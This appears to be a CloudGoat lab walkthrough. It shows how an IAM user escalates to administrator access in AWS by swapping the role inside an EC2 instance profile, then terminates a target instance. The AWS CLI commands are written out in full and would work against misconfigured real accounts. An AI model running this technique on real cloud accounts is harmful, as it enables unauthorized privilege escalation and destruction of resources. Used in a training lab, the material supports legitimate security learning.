 # Scenario 3

iam_privesc_by_attachment

## What is the scenario

The scenario begins with IAM User "Kerrigan" security credentials.

The objective is to delete the EC2 instance "cg-super-critical-security-server".

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_attachment/README.md

## Setting up the scenario

        python3 cloudgoat.py create iam_privesc_by_attachment

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario3-6.png)

### Step by step instructions

In this scenario, we have a set of AWS IAM Security Credentials to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the available security credentials.

![enumerate-permissions](imgs/scenario3-2.png)

We can notice that the security credentials are permitted to do some specific operations and it is worth investigating further.

Let's first verify if "cg-super-critical-security-server", target EC2 machine that we are supposed to delete is available. An AWS convention is to put the name of the EC2 instance in a tag with the tag key as "Name" so we are retrieving EC2 tags.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[Tags]' \
        --profile kerrigan

![ec2-tags](imgs/scenario3-7.png)

We have sucessfully verified that the target server is available in the AWS account. Let's go ahead and continue our enumeration.

As IAM User "Kerrigan", we are allowed to retrieve information related to EC2 "Instance Profiles". An Instance Profile is a container for a single IAM Role. An EC2 Instance cannot be assigned an IAM Role directly, but it can be assigned an Instance Profile which contains a Role. Let's enumerate the Instance Profiles available. In this below command, we are using `--query` to query only Instance Roles that start with `cg-` because Cloudgoat as a convention names all the resources starting with `cg`

        aws iam list-instance-profiles \
        --query "InstanceProfiles[?starts_with(InstanceProfileName, 'cg')]" \
        --profile kerrigan

![instance-profiles](imgs/scenario3-3.png)

The AWS account has one Instance Profile, `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` which is a container around the IAM Role `cg-ec2-meek-role-<CLOUD_GOAT_ID>`.

As IAM User "Kerrigan", we are also allowed to retrieve information related to IAM Roles. Let's enumerate the IAM roles available.

        aws iam list-roles \
        --query "Roles[?starts_with(RoleName, 'cg')]" \
        --profile kerrigan

![iam-roles](imgs/scenario3-4.png)

![instance-profiles](imgs/scenario3-5.png)

There are two IAM roles in the AWS account - `cg-ec2-meek-role-<CLOUD_GOAT_ID>` and `cg-ec2-mighty-role-<CLOUD_GOAT_ID>`. The keywords "meek" and "mighty" suggest that one role (mighty) may have more permissions than other role (meek). All the operations performed to enumerate the permissions of  these roles have failed with an "Access Denied" error.

One possible way to figure out the permissions of these roles is to attach them to an EC2 instance and using the EC2 to enumerate the role permissions. Remember that IAM Roles can't be attached to EC2 directly, they have to be wrapped in an Instance Profile. This method requires us to be able to create/modify Instance Profiles, create an EC2 instance with Instance Profile in the AWS account.

Let's try and create an EC2 instance. To create an EC2 instance that we can use to enumerate the IAM role permissions, we need the following - 

1. A subnet to start EC2 Instance in
2. A security group that allows SSH access to the EC2 instance
3. An SSH key pair that we can use to SSH into the EC2 instance

We can use the same subnet as the target EC2 machine that we are supposed to delete.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SubnetId]' \
        --output text --profile kerrigan

![subnetId](imgs/scenario3-8.png)

We can enumerate the security groups and use the security group that allows SSH access to the EC2 instance.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SecurityGroups]' \
        --output text --profile kerrigan

        aws ec2 describe-security-groups --profile kerrigan

![security-groups](imgs/scenario3-9.png)

Let's try and create a new SSH Key Pair because we can't use any existing key pairs in the AWS account. We need this new key pair in order to SSH into the EC2 machine that we might create.

        aws ec2 create-key-pair \
        --key-name new-ec2  \
        --query 'KeyMaterial' \
        --output text > new-ec2.pem \
        --region us-east-1 \
        --profile kerrigan

We have all the information needed to create a new EC2 instance. Now let's try and create an EC2 instance with following criteria -

1. Same subnet as target EC2 instance
2. Security group that allows SSH access
3. Newly generate SSH key pair for SSH authentication
4. Attach the `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` Instance Profile
5. Use an Ubuntu 18.04 AMI

Let's go ahead and try to create a new EC2 instance. 

        aws ec2 run-instances \
        --image-id ami-0a313d6098716f372 \
        --instance-type t2.micro \
        --iam-instance-profile \
        Arn=<INSTANCE-PROFILE-ARN> \
        --key-name new-ec2 \
        --subnet-id <SUBNET_ID> \
        --security-group-ids <SECURITY_GROUP_ID> \
        --region us-east-1 \
        --profile kerrigan

We are able to successfully create a new EC2 instance. Save the details of the new EC2 instance for later usage. 

The Instance Role `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` is still a wrapper around potentially low privileged IAM Role i.e. `cg-ec2-meek-role-<CLOUD_GOAT_ID>`. Let's remove it and add `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role to the Instance Profile.


        aws iam remove-role-from-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-meek-role-<CLOUD_GOAT_ID> --profile kerrigan

        aws iam add-role-to-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-mighty-role-<CLOUD_GOAT_ID> --profile kerrigan

Let's SSH into the newly created EC2 instance - 


1. Change permissions for the SSH private key `chmod 400 new-ec2.pem`
2. Retrieve the public IP of the newly created EC2 instance

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].PublicIpAddress" \
        --output text \
        --profile kerrigan

3. SSH into the machine using the public IP address `ssh -i new-ec2.pem ubuntu@<PUBLIC-IP-ADDRESS>`

Once you have successully SSHed into the EC2 instance, let's enumerate the IAM role `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` and policy attached to it 


1. Install AWS CLI on the EC2 instance

```
sudo apt-get update

sudo apt-get install awscli
```

2. Enumerate the policy and policy permissions


        aws iam list-policies --query "Policies[?starts_with(PolicyName, 'cg')]"


        aws iam get-policy-version \
        --policy-arn "arn:aws:iam::ACCOUNT-ID:policy/cg-ec2-mighty-policy"  \
        --version-id "v1"

![policy](imgs/scenario3-11.png)

![policy-permissions](imgs/scenario3-10.png)

Notice that the `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role basically gave the EC2 instance Administrator access to the AWS account.

3. Terminate the target EC2 instance 


        aws ec2 describe-instances --region us-east-1
        aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1

## Destroy the scenario


> <p><span style="color:red"><em>Note: In this scenario you created some AWS resources manually (EC2 Instance, Key pair etc). CloudGoat can only manage resources it creates, you should remove the resources you created manually before running cloudgoat destroy.</em></span>.</p>

        python3 cloudgoat.py destroy iam_privesc_by_attachment

## References

- [Using Instance Profiles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_switch-role-ec2_instance-profiles.html)



